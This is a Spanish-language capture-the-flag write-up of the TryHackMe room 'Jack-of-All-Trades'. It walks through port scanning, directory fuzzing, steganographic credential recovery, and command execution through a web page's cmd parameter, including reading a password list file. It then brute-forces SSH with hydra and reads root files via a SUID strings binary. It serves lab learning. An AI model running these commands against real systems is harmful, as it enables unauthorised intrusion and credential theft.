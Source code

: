```yaml
---
layout: single
title: Jack-of-All-Trades
excerpt: "Boot-to-root originally designed for Securi-Tay 2020"
date: 2022-05-04
classes: wide
header:
  teaser: /assets/images/thm-writeup-jack-of-all-trades/jack_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - Web
  - Javascript
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_logo1.png)

[Link](https://tryhackme.com/room/jackofalltrades "Jack")

Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

---

## 1. Fase de reconocimiento

- Para conocer a que nos estamos enfrentando lanzamos el siguiente comando:

```css
ping -c 1 {ip}
```

![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_ping.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los **_65535_** puertos de red el cual guardamos en un archivo en formato **_nmap_** con el siguiente comando:

```css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip} -oN allports
```

![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_nmap.png)

---

- De acuerdo con el escaneo anterior, se encuentran los siguientes puertos abiertos; 22 (http) y 80 (htp), como se observa el puerto **22** esta resolviendo http, lo cual nos puede traer inconvenientes en fututo.

- Escaeno de vulnerabilidades sobre los puertos abiertos:

```css
nmap -v -A -sC -sV -Pn {ip} -p22,80 --script vuln
```

- Utilizamos **whatweb** con la {ip} sobre los puertos 22 y 80, sobre el puerto 80 nos genera error en su lugar en el puerto 22 nos listó la siguiente información:

![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_whatweb.png)

---

- Abrimos una nueva pestaña, en la cual escribimos lo siguiente en la barra de navegación: **about:config** y agregamos la siguiente entrada **network.security.ports.banned.override** sobre el puerto **22**, de acuerdo con la siguiente referencia <https://support.mozilla.org/en-US/questions/1083282>

![logo](/assets/images/thm-writeup-jack-of-all-trades/jack_web2.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

```css
└─# wfuzz --hc=404,273 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.68.28:22//FUZZ/
```

- Con el anterior escaner encotramos la siguiente ruta:
  - "assets"

![assets](/assets/images/thm-writeup-jack-of-all-trades/jack_assets.png)

- Al revisar esta ruta nos encotramos con 3 imagenes y una hoja de estilos css, llama la atención el archivo **stego.jpg**, en clara referencia a información oculta con esteganografía.

## 4. GOBUSTER

- Escaneo de subdominios con esta herramienta:

```css
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.68.28:22 -x txt,py,php,js

```

- Con el anterior escaner encotramos las siguientes rutas:
  - "assets"
  - "recovery.php"

![login](/assets/images/thm-writeup-jack-of-all-trades/jack_login.png)

---

## 5 Steganografía

- Inspeccionando el código de la página y nos encontramos con el siguiente código que está códificado en base 64, el cual procedemos a decodificar y nos encontramos con una contraseña:

![login](/assets/images/thm-writeup-jack-of-all-trades/jack_64decode.png)

---

![login](/assets/images/thm-writeup-jack-of-all-trades/jack_64decode_burp.png)

---

- Con la contraseña encontrada procedemos a desencriptar los mensajes en las imagenes y encontramos lo siguiente:

![steg1](/assets/images/thm-writeup-jack-of-all-trades/jack_steg1.png)

---

![steg1](/assets/images/thm-writeup-jack-of-all-trades/jack_steg2.png)

---

- Con el usuario y contraseña encontrados nos autenticamos en "recovery.php" y nos entrega el siguiente mensaje:

![login](/assets/images/thm-writeup-jack-of-all-trades/jack_login1.png)

- Analizando este mensaje encontramos que podemos realizar ejecución remota de comando.

## 6. Burpsuite

- De acuerdo con la información anterior procedemos a modificar la cabecera de está manera **/nnxhweOV/index.php?cmd=id** y obtenemos la siguiente respuesta:

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_burp1.png)

---

## 7. Hydra

- Después de realizar varias conslutas me encontre con una información interasante en la ruta **home**, se teata de un listado de passwords, los cuales procedemos a listar desde burpsuite con la siguiente petición desde el **repeater** y obtenemos un listado:

```css
GET /nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list HTTP/1.1
```

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_burp_list.png)

- Guardamos las contraseñas en un archivo, para nuestro casp **dic.txt** y utilizando **hydra** procedemos mediante fuerza bruta a encontrar las credenciales para el usuario **jack** con el siguiente comando:
  
```css
┌──(root㉿bogsec)-[/home/ocortesl/THM/Jack/exploit]
└─# hydra -l jack -P dic.txt -s 80 ssh://10.10.68.28 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-04 20:15:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.68.28:80/
[80][ssh] host: 10.10.68.28   login: jack   password: ????????????
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-05-04 20:15:23
```

## 8. Bandera usuario

- Con la contraseña encontrada en el punto anterior, ingresamos mediante **ssh** por el puerto **80** y al listar el contenido nos encontramos con el archivo **user.jpg**

```css
┌──(root㉿bogsec)-[/home/ocortesl/THM/Jack]
└─# ssh -p 80 jack@10.10.38.231
The authenticity of host '[10.10.38.231]:80 ([10.10.38.231]:80)' can't be established.
ED25519 key fingerprint is SHA256:bSyXlK+OxeoJlGqap08C5QAC61h1fMG68V+HNoDA9lk.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:40: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.38.231]:80' (ED25519) to the list of known hosts.
jack@10.10.38.231's password
jack@jack-of-all-trades:/tmp$ ls
user.jpg
```

- Compartimos un servidor por el puerto **8080** y accedemos a la dirección desde el navegador y observamos el **index** y en este el archivo **user.jpg**, como se observa a continuación:
  
![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_user1.png)

---

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_user.png)

---

## 9. Bandera root

- Procedemos a investigar que vulnerabilidad podemos aprovechar para escalar privilegios con el siguiente comnando:

```css
jack@jack-of-all-trades:/tmp$ find / -user root -perm /4000 -exec ls -l {} \; 2>/dev/null
```

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_strings.png)

- Consultamos en <https://gtfobins.github.io/gtfobins/strings/> y encontramos que podemos leer archivos saltando los privilegios root.

![burp](/assets/images/thm-writeup-jack-of-all-trades/jack_gtfo.png)

```css
jack@jack-of-all-trades:/$ strings /root/root.txt     
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: //////_{????????}

```

---

Fuentes:

- Gtfobins:
<https://gtfobins.github.io/gtfobins/strings/>

- Writeup
<https://fr33s0ul.tech/jack-of-all-trades-tryhackme-write-up/>
